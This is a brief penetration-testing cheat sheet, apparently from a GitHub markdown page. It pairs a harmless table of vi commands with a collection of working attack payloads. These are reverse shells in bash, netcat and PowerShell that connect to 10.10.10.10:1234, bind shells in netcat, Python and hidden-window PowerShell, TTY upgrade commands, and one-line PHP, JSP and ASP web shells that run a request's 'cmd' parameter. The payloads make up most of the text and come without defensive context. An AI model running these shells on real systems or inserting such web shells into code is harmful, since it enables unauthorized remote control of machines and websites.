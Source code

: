### Vi commands

| Command |	Description |
| ------- | ----------- |
| x |	Cut character |
| dw |	Cut word |
| dd |	Cut full line |
| yw |	Copy word |
| yy |	Copy full line |
| p |	Paste |
| :1 |	Go to line number 1. |
| :w |	Write the file, save |
| :q |	Quit |
| :q! |	Quit without saving |
| :wq |	Write and quit |

> https://github.com/theicfire/vimsheet/blob/gh-pages/index.md
---------
> https://vimsheet.com/
---------

Reverse shell, Bind Shell payloads

```bash
Reverse Shell

bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

Bind Shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

Upgrading TTY

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo;fg
export TERM=xterm
stty a
stty rows <> cols <>
```

Web Shells

```bash

PHP: <?php system($_REQUEST["cmd"]); ?>
JSP: <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
ASP: <% eval request("cmd") %>

```
